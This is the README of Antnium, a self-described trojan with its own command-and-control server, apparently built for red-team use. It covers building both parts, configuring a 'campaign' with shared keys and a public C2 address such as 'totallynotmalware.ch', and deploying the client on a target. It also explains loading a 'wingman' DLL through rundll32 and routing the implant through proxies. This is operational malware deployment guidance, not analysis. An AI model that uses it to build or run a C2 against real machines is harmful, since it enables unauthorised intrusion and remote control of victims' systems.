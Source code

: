 # Antnium 

```
Anti Tanium
```

There are two components: 
* client.exe: The actual trojan
* server.exe: C2 infrastructure 


## Quick How to use

Download and install go (and git).

We use `127.0.0.1:8080` as C2 domain here (localhost as we start both client.exe and server.exe
on the same host). This is also the default, no need to change anything. 

Check campaign in `campaign/campaign.go`: 
* `serverUrl = "http://127.0.0.1:8080"`

Build it: 
```
.\makewin.bat deploy
```

Start server, and client: 
```
cd build\
.\server.exe
.\static\client.exe
```

Access the WebUI by opening the following URL in the browser after starting server.exe:
```
http://localhost:8080/webui/
```

Note: for Linux use `make` instead of `makewin.bat`, and replace `\` with `/`

## Detailed build instructions

Go install: 
* Windows: https://golang.org/doc/install
* Linux: `apt install golang gcc-mingw-w64`

Compile client.exe and server.exe: 
```
> .\makewin.bat deploy
```

This will create: 
* /build/server.exe
* /build/server.elf
* /build/static/client.exe
* /build/static/client.elf
* /build/static/wingman.exe
* /build/upload/
* /build/webui/

Start server.exe:
```
> cd build
> .\server.exe

Antnium 0.1
Loaded 102 packets from db.packets.json
Loaded 21 clients from db.clients.json 
Periodic DB dump enabled
Starting webserver on 127.0.0.1:8080  
```

Start client.exe:
```
> .\build\static\client.exe

Antnium 0.1
time="2021-09-02T21:48:16+02:00" level=info msg="UpstreamHttp: Use WS"
time="2021-09-02T21:48:16+02:00" level=info msg="Connecting to WS succeeded"
time="2021-09-02T21:48:16+02:00" level=info msg=Send 1_computerId=c4oil02sdke2sp3nfngg 2_packetId=0 3_downstreamId=client 4_packetType=ping 5_arguments="map[]" 6_response=...
time="2021-09-02T21:48:16+02:00" level=info msg=Send 1_computerId=c4oil02sdke2sp3nfngg 2_packetId=0 3_downstreamId=client 4_packetType=ping 5_arguments="map[]" 6_response=...
```

## Notes on Campaign configuration

`campaign.go` connects a compiled client.exe with a specific server.exe, which forms a campaign. 
A campaign has individual encryption- and authentication keys, which are shared between
server and client. 

```
type Campaign struct {
	ApiKey      string  // Key used to access client facing REST
	AdminApiKey string  // Key used to access admin facing REST
	EncKey      []byte  // Key used to encrypt packets between server/client
	ServerUrl   string  // URL of the server, as viewed from the clients
}
```

Note that `ServerUrl` is the URL used by the client for all interaction with the server. 
It is the public server URL, e.g. `http://totallynotmalware.ch`. The actual server.exe may
be behind a reverse proxy, and started with `server.exe --listenaddr 127.0.0.1:8080` (so `ServerUrl` is not necessarily equal `listenaddr`). 

## Notes on server access

When first connecting to the server, you need to access and configure the UI first. 

The Angular UI files are publicly accessible. Lets assume `ServerUrl="http://localhost:8080"` and `listenaddr=0.0.0.0:8080`. You can either: 
* use the integrated antniumui, available as `http://localhost:8080/webui` on your browser
* or `ng serve` from antniumui directory, and then open `http://localhost:4200` on your browser

When connecting to the UI in the browser, you need first to configure the server IP and its password:
* AdminApiKey (default: "Secret-AdminApi-Key", like in Campagin default)
* ServerIP (default: "http://localhost:8080")
* User (optional)

## Client

Tested on: 
* Windows 10
* Ubuntu 20.04 LTS

Compile on windows:
```
> .\makewin.bat client
```

Deploy it on your target.


## Server

Tested on: 
* Works: Ubuntu 20.04 LTS, Go 1.13.8
* Works: Windows 10, Go 1.16.6
* Compile FAIL: Ubuntu 16.04 LTS, Go 1.6.2

On Linux:
```
$ make server
$ mkdir -p static upload
$ ./server --listenaddr 0.0.0.0:8080
```

Result is `server.exe`. Make sure to run it in the directory where you have or expect: 
* upload/
* static/
* db.*.json
as working directory.

It will start a REST server on that port, providing: 
* `/`: REST for the clients
* `/ws`: Websocket for the clients
* `/admin`: REST for admin interface (add packet, get clients)
* `/adminws`: Websocket for admin interface (push packets)
* `/webui`: HTML files for admin interface (Angular source and html, accesses REST and websocket)

Put a reverse proxy before it (make sure it supports websockets!) or forward ports.


## Options

For proxy, use full HTTP url:
```
client.exe -proxy http://proxy:8080
```

or via environment variables:
```
export PROXY http://localhost:8080
./client
```


## Wingman

Wingman is basically the Client, but without direct connection to the C2. 
It can connect to an existing client on localhost:50000 (more sure its started, if Campaign.AutoStartDownstreams is false)

Connects to localhost port 50000:
```
wingman.exe
```

Or use rundll32.exe to load the dll (the 64 bit rundll32 version in system32, not the 32 bit version in C:\Windows\SysWOW64\rundll32.exe):
```
C:\Windows\System32\rundll32.exe .\wingman.dll,Start
```

It will appear as downstream `net#0`.


## Testing

```
go test ./...
```

There may still be race conditions. If it fails once, just execute it again. 